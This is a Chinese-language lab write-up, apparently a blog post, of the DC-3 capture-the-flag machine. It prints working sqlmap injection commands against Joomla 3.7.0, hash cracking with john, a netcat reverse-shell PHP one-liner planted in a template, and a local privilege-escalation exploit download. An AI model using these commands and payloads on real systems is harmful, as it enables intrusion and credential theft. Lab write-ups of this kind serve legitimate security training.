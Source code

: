 ```yaml
---
layout: post
title: DC-3
subtitle: DC-3
date: 2025-07-09 08:57
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - DC系列
published: true
---
```

### 环境配置

[解决：DC-3 IDE 设备(兹盘/CD-ROM)配置不正确。“ide0:1“上具有 个 IDE 从设备但没有主设备。此配置在虚拟机中 无法正常运行](https://blog.csdn.net/qq_50377269/article/details/137790190)

### 信息搜集

主机发现：`192.168.163.131`

![image.png300](https://img.ghostliner.top/pXvsQf.png)

端口扫描

![image.png300](https://img.ghostliner.top/K2a1g5.png)

访问网站 <http://192.168.163.131/> 获得提示

```shell
dirb http://192.168.163.131/
nikto -h 192.168.163.131
```

扫描目录发现后台登录 <http://192.168.163.131/administrator/index.php>

`whatweb` 发现网站框架 `Joomla`

![image.png300](https://img.ghostliner.top/4qww6f.png)

`joomscan` 扫描获取详细信息 版本 `Joomla 3.7.0`

### 渗透测试

搜索版本漏洞

![image.png300](https://img.ghostliner.top/JUEDGl.png)

#### 数据库爆破

查看 `/usr/share/exploitdb/exploits/php/webapps/42033.txt`

![image.png300](https://img.ghostliner.top/IgBLKX.png)

使用该命令：

```shell
sqlmap -u "http://192.168.163.131/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] --batch
```

获取到数据库
![image.png300](https://img.ghostliner.top/RNZXpV.png)

```shell
# 获取表
sqlmap -u "http://192.168.163.131/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] -D joomladb --tables --batch
# 获取列 不能用--batch
sqlmap -u "http://192.168.163.131/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] -D joomladb -T '#__users' --columns
# 获取用户名 密码
sqlmap -u "http://192.168.163.131/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] -D joomladb -T '#__users' -C username,password --dump
```

<table>
	<tr>
		<td><center><img alt="image" src="https://img.ghostliner.top/mD6eR2.png"></center></td>
		<td><center><img alt="image" src="https://img.ghostliner.top/ajK0Ne.png"></center></td>
	</tr>
</table>

获取到用户名、密码

![image.png](https://img.ghostliner.top/SDg7ss.png)

Joomla 使用 `#__` 作为数据库表名的**动态前缀占位符**，若安装时前缀设为 `jos_`，则实际表名为 `jos_users`

将密码保存到 `pass.txt` 破解密码

```shell
john --wordlist=/usr/share/wordlists/john.lst pass.txt
# snoopy           (?)

# 若显示不需要破解，说明之前已破解过，执行命令
john --show pass.txt
```

#### 反弹shell

尝试登录网站后台，成功。
在拓展-》模板-》beez3 可以上传php文件，上传反弹shell脚本

```php
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.163.132 4444 >/tmp/f');?>

# kali执行 nc -lvvp 4444
```

```mermaid
graph TD
    A[攻击者输入命令] --> B[Netcat 4444端口]
    B --> C["/tmp/f 管道"]
    C --> D["cat 读取命令"]
    D --> E["/bin/sh 执行命令"]
    E --> F[命令结果]
    F --> B[Netcat发回攻击者]
```

根据之前扫描发现的目录，尝试访问 `http://192.168.163.131/templates/beez3/shell.php`

![image.png](https://img.ghostliner.top/LM3Bjc.png)

访问成功，连接到kali，`sudo -l` , `find` 提权失败，根据提示进行系统提权

```shell
cat /etc/issue
# Ubuntu 16.04 LTS \n \l
```

#### 系统提权

```shell
searchsploit ubuntu 16.04
searchsploit -p linux/local/39772.txt
cat /usr/share/exploitdb/exploits/linux/local/39772.txt
```

按文件内容下载 <https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/39772.zip> 只需要 `exploit.tar` 文件

利用一句话木马和蚁剑，上传文件
![image.png](https://img.ghostliner.top/EOXJpA.png)

`tar -xvf exploit.tar` 解压文件，cd进目录，执行以下命令，即可获得root权限

```shell
./compile.sh
./doubleput
```

![image.png](https://img.ghostliner.top/MIXHhV.png)
